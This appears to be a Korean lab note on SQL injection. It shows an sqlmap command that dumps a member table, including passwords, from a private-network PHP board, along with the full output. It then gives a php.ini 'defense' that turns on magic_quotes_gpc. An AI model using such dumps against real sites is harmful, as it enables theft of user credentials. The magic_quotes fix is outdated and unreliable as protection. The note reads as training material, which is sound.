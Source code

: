  <br>

member 테이블 내용을 추출 

```
sqlmap -u "http://172.16.0.110/board/board_view.php?num=28" -p "num" -D "WebTest" -T "member" --dump

[12:10:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6
web application technology: PHP 5.3.3, PHP, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.12
[12:10:26] [INFO] fetching columns for table 'member' in database 'WebTest'
[12:10:26] [INFO] retrieved: 'no','int(11)'
[12:10:26] [INFO] retrieved: 'u_id','varchar(20)'
[12:10:26] [INFO] retrieved: 'u_pass','varchar(50)'
[12:10:26] [INFO] retrieved: 'u_name','varchar(20)'
[12:10:26] [INFO] retrieved: 'nickname','char(20)'
[12:10:26] [INFO] retrieved: 'age','int(11)'
[12:10:26] [INFO] retrieved: 'email','char(50)'
[12:10:26] [INFO] retrieved: 'reg_date','datetime'
[12:10:26] [INFO] fetching entries for table 'member' in database 'WebTest'                                                                                 
[12:10:26] [INFO] retrieved: '1','28','test01@test01','tester','2022-10-28 00:51:49','test01','???','4111'
[12:10:26] [INFO] retrieved: '2','28','kh@kh','kh','2022-10-28 02:00:52','test02','kh','aaaaaa'
[12:10:26] [INFO] retrieved: '3','1','or@or','and','2022-11-01 01:44:25','andor','참거짓','ssssss'

Database: WebTest                                                
Table: member
[3 entries]
+--------+-----+------+---------------+--------+--------+----------+---------------------+
| u_id   | age | no   | email         | u_name | u_pass | nickname | reg_date            |
+--------+-----+------+---------------+--------+--------+----------+---------------------+
| test01 | 28  | 1    | test01@test01 | ???    | 4111   | tester   | 2022-10-28 00:51:49 |
| test02 | 28  | 2    | kh@kh         | kh     | aaaaaa | kh       | 2022-10-28 02:00:52 |
| andor  | 1   | 3    | or@or         | 참거짓 | ssssss | and      | 2022-11-01 01:44:25 |
+--------+-----+------+---------------+--------+--------+----------+---------------------+
```

 <br>

 <br>

 <br>

##### 방어 - sql injection : php.ini

```
vim /etc/php.ini

 747 ; Production Value: Off
 748 ; http://www.php.net/manual/en/info.configuration.php#ini.magic-quotes-gpc
 749 #magic_quotes_gpc = Off
 750 magic_quotes_gpc = on

magic_quotes_gpc를 on으로 설정 하면 됩니다.
```

